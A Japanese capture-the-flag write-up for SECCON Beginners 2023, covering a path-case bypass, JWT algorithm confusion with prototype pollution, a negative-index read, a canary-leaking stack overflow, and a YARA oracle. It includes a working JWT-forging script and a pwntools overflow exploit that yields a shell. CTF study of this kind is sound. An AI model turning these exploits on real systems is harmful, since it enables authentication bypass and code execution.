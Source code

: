 # SECCON Beginners 2023 Writeup

## 目次

- Web
  - [Forbidden](#forbidden)
  - [double check](#double-check)
- Pwnable
  - [poem](#poem)
  - [rewriter2](#rewriter2)
- Misc
  - [YARO](#yaro)

## Forbidden

Express.jsでパスに`/flag`を含めずに`/flag`へのGETリクエストを送信できればよい。case insennsitiveであるため、`/FLAG`や`/Flag`などが通る。

## double check

JWTでRS256とHS256の両方を許可しているため、RS256公開鍵をHS256共有鍵として使用する攻撃が使える。また、adminチェックではusernameとpasswordのどちらか、または両方がadminユーザーの情報と一致しない場合`verified = _.omit(verified, ["admin"]);`によってadminパラメータが削除される。Prototype Pollutionを使用することで削除を回避し、token.adminとuser.adminをtrueにすることができる。具体的には以下のPythonスクリプトでflagが得られる。

```py
import jwt
import requests


url = "https://double-check.beginners.seccon.games"

# Prototype Pollution
payload = {
    "username": "admin",
    "__proto__": {
        "admin": True
    },
    "iat": 1685828626,
    "exp": 1685832226
}

# 最新バージョンのPyJWTがHS256でRSAの公開鍵を使うことができないため、使えるようにするためのパッチ
def prepare_key(key):
    return jwt.utils.force_bytes(key)

jwt.api_jws._jws_global_obj._algorithms['HS256'].prepare_key = prepare_key

# RSA256用の公開鍵
public_key = open('./app/keys/public.key', 'r').read()

token = jwt.encode(
    payload=payload,
    key=public_key,
    algorithm="HS256"
)
print(token)

# セッションクッキーの取得
req = requests.get(url)
cookie = req.cookies.get("connect.sid")
user = {"username": "admin", "password": "pass"}

# ユーザー登録
headers1 = {"Content-Type": "application/json"}
req2 = requests.post(
    url + "/register",
    json=user,
    cookies=req.cookies,
    headers=headers1
)
print(req2.text)

# 改ざんしたJWTを用いてフラグを取得
headers2 = {"Authorization": token}
req3 = requests.post(
    url + "/flag",
    cookies=req.cookies,
    headers=headers2
)
print(req3.text)
```

## poem

0から4の整数値を受け取るようになっており、入力値のチェックとして`n < 5`であることが確認されている。しかし負の値に関しては制限なく通せるため、後ろ側への範囲外アクセスが可能。`-4`を入力することでflagが得られる。

## rewriter2

まずchecksecの結果は以下となる。カナリアがある。
```bash
$ checksec rewriter2
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

実行してみると、スタックの様子が出力され、入力が求められる。

```
$ ./rewriter2

 [Addr]             | [Value]
====================+===================
 0x00007fffe2e1f8d0 | 0x0000000000000002  <- buf
 0x00007fffe2e1f8d8 | 0x00007f28769e9780
 0x00007fffe2e1f8e0 | 0x0000000000000000
 0x00007fffe2e1f8e8 | 0x00007f287685d475
 0x00007fffe2e1f8f0 | 0x0000000000001000
 0x00007fffe2e1f8f8 | xxxxx hidden xxxxx  <- canary
 0x00007fffe2e1f900 | 0x0000000000000001  <- saved rbp
 0x00007fffe2e1f908 | 0x00007f28767f8d90  <- saved ret addr
 0x00007fffe2e1f910 | 0x00007f28769e5600
 0x00007fffe2e1f918 | 0x00000000004011f6

What's your name?
```

ソースコードを見ると、BUF_SIZE=0x20に対してREAD_SIZE=0x100でreadしており、BOFが可能な箇所が2か所ある。1回目でカナリアをリークさせ、2回目でカナリアを回避しながらリターンアドレスをwinのアドレスに書き換えることを考える。  
だが単純にwinのアドレスに飛ばしても`Congulatulation!`が出力されたあとにsystem関数でセグフォが発生し、落ちてしまう。これはスタックのアライメントがずれていることが原因であり、ret gadgetを探し、winのアドレスの前に挟むことでrspをずらすとシェルが得られる。

```py
from pwn import *

binary = './rewriter2'
context.binary = binary

io = process(binary)

#io = remote('rewriter2.beginners.seccon.games', 9001)
io.recvuntil(b"What's your name? ")
BUF_SIZE = 0x20
READ_SIZE = 0x100

offset = BUF_SIZE + 8

win_addr = p64(0x04012c2)
ret_addr = p64(0x4012c1)  # 適当なret gadget 参考: https://sok1.hatenablog.com/entry/2022/01/17/050710

# Leak Canary
payload1 = b"A" * offset
io.sendline(payload1)
print(io.recvuntil(b"Hello, " + payload1))

canary = io.recv(8)
print("canary", canary)
canary = b"\x00" + canary[1:]  # 先頭が'\n'で上書きされてるので'\x00'に修正
print(io.recvuntil("How old are you?").decode("utf-8", errors="ignore"))

rbp = p64(0x1)
payload2 = b"A" * offset + canary + rbp + ret_addr + win_addr
io.sendline(payload2)
io.interactive ()
```

## YARO

任意のYARAルールを送信してファイルを検査できる。ファイルの中身がルールで記述した正規表現にマッチするかを判定できるため、オラクルでflagファイルの中身を特定することができる。  
まず文字種と文字数を探索すると、ctf4b{}の中は`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_`で構成されており、また文字数は28文字であることがわかる。  
ルールを複数書くことができるため、n番目の文字が文字種内のどの文字に一致するかを一度で特定できるルールを記述することで、28回の試行でflag全体を特定することができる(より効率化するのであれば二分探索が可能だが、今回は実装が面倒なためやらなかった)。

```
rule rule_A {strings:$flag = /^ctf4b\{A\w+\}/ condition:$flag}
rule rule_B {strings:$flag = /^ctf4b\{B\w+\}/ condition:$flag}
rule rule_C {strings:$flag = /^ctf4b\{C\w+\}/ condition:$flag}
...
rule rule_A {strings:$flag = /^ctf4b\{YA\w+\}/ condition:$flag}
rule rule_B {strings:$flag = /^ctf4b\{YB\w+\}/ condition:$flag}
rule rule_C {strings:$flag = /^ctf4b\{YC\w+\}/ condition:$flag}
...
```
